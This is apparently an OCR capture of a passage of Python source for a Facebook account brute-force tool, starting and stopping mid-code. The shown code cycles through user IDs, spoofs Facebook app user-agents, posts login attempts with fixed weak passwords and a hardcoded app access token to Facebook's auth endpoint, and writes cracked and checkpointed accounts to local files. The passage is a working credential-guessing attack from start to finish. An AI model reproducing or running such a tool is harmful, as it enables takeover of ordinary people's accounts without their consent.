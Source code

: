 			raw_input("\033[93;1m PRESS ENTER TO BACK")
			crack()
	elif select =="0":
	    menu()
	else:
		print("")
		print("\t\033[91;1m  SELECT VALID OPTION")
		print("")
		crack_select()
	os.system("clear")
	logo()
	print("")
	print("\033[93;1m  TOTAL IDS : \033[92;1m"+str(len(id)))
	print("\033[92;1m  BRUTE HAS BEEN STARTED\x1b[0m")
	print("\033[94;1m  WAIT AND SEE \033[92;1m✘\033[91;1m✘\x1b[0m")
	linex()
	def main(arg):
		user=arg
		uid,name=user.split("|")
		_bravoua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])
		try:
			pass1 = "102030"
			api = 'https://b-api.facebook.com/method/auth.login'
			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
			data = requests.get(api, params=params, headers=headers_)
			if "access_token" in data.text and "EAAA" in data.text:
				print(" \033[1;32m[Ibrahim-OK] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("ok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in data.json()['error_msg']:
					print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("cp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = "223344"
					api = 'https://b-api.facebook.com/method/auth.login'